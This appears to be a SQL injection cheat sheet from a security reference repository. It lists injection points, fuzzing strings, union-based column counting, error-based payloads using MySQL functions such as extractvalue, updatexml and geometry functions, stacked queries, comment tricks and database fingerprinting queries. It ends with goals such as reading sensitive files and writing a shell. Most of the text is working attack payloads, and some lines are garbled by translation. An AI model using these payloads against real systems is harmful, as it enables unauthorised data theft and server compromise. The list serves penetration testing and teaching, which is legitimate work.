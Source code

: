 Injection detection
=====================================

Common injection points
--------------------------------------
- GET/POST/PUT/DELETE parameters
- X-Forwarded-For
- file name

Fuzz Injection Point
--------------------------------------
- ``'`` / ``"``
- ``1/1``
- ``1/0``
- ``and 1=1``
- ``" and "1"="1``
- ``and 1=2``
- ``or 1=1``
- ``or 1=``
- ``' and '1'='1``
- ``+`` ``-`` ``^`` ``*`` ``%`` ``/``
- ``<<`` ``>>`` ``||`` ``|`` ``&`` ``&&``
- ``~``
- ``!``
- ``@``
- Backtick execution

Test constants
--------------------------------------
- ``@@version``
- ``@@servername``
- ``@@language``
- `` @@ spid`is

Number of test columns
--------------------------------------
For example ``http://www.foo.com/index.asp?id=12+union+select+null,null--``, increasing ``null`` to not return

Report an error injection
--------------------------------------
- ``select 1/0``
- ``select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a``
- ``extractvalue(1, concat(0x5c,(select user())))``
- ``updatexml(0x3a,concat(1,(select user())),1)``
- ``exp(~(SELECT * from(select user())a))``
- ``ST_LatFromGeoHash((select * from(select * from(select user())a)b))``
- ``GTID_SUBSET(version(), 1)``

Error injection based on geometric
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``GeometryCollection((select * from (select * from(select user())a)b))``
- ``polygon((select * from(select * from(select user())a)b))``
- ``multipoint((select * from(select * from(select user())a)b))``
- ``multilinestring((select * from(select * from(select user())a)b))``
- ``LINESTRING((select * from(select * from(select user())a)b))``
- ``multipolygon((select * from(select * from(select user())a)b))``

It should be noted that the error injection based on exp function in the version after MySQL 5.5.49 is no longer effective. For details, please refer to this `commit 95825f <https://github.com/mysql/mysql-server/commit/95825fa28a7e84a2f5dbdef5241078f7055c5b04 >`_ .

The geometric-based error injection in the above list was fixed in this `commit 5caea4 <https://github.com/mysql/mysql-server/commit/5caea4a995130cd7c82574acc591ff7c46d9d978>`_, and it is also not in the later versions of 5.5.x Re-effective.

Stacked Injection
--------------------------------------
- ``;select 1``

Comment characters
--------------------------------------
- ``#``
- ``--+``
- ``/*xxx*/``
- ``/*!xxx*/``
- ``/*!50000xxx*/``

Judgment filtering rules
--------------------------------------
- Is there any trunc
- Whether to filter a character
- Whether to filter keywords
- slash and encoding

Get information
--------------------------------------
- Determine database type
- ``and exists (select * from msysobjects ) > 0`` access database
- ``and exists (select * from sysobjects ) > 0`` SQLServer database

- Judgment database tables
- ``and exsits (select * from admin)``

- Version, host name, user name, library name
- Tables and fields
- Determine the number of fields
- Order By
- Select Into
- Table name, column name

Test permissions
--------------------------------------
- File Operation
- Read sensitive files
- Write shell
- Out-of-band channel
- Network Request
